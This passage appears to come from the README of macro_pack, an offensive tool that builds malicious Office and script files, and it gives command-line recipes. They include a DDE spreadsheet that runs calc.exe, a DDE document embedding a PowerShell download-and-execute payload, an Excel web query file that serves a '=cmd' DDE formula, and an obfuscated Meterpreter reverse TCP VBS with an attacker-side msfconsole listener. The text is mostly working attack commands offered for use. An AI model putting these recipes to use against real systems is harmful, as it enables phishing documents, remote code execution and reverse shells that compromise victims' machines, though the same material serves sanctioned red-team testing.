 - Execute calc.exe via Dynamic Data Exchange (DDE) attack
```bash
echo calc.exe | macro_pack.exe --dde -G calc.xslx
```

<p align="center"><img src="./assets/excel_dde.png" alt="Excel DDE demo"></p>


- Download and execute file via powershell using Dynamic Data Exchange (DDE) attack
```bash
# 1 Change the target file URL in resources\community\ps_dl_exec.cmd
# 2 Embed download execute cmd in document
macro_pack.exe --dde -f ..\resources\community\ps_dl_exec.cmd -G DDE.xslx
```

- Run command (notepad.exe) via Excel web query file and DDE
```bash
# 1 Create dde.dat file with next content
=cmd|' /c notepad.exe'!A1
# 2 Host dde.dat on webserver, ex. using macro_pack -l
# 3 Generate .iqy file
macro_pack.exe -G dde.iqy
```

<p align="center"><img src="./assets/iqy_dde.PNG" alt="IQY demo"></p>


 - Generate obfuscated Meterpreter reverse TCP VBS file and run it  
 ```batch
# 1 Generate obfuscated VBS based on meterpreter template as well as Metasploit resource file
echo <ip> <port> | macro_pack.exe -t METERPRETER -o -G meter.vbs
# 2 On attacker machine Setup meterpreter listener
msfconsole -r meterpreter.rc
# 3 run VBS file with wscript (run 32bit wscript because meterpreter payload is 32bit)
%windir%\SysWoW64\wscript meter.vbs

 ```
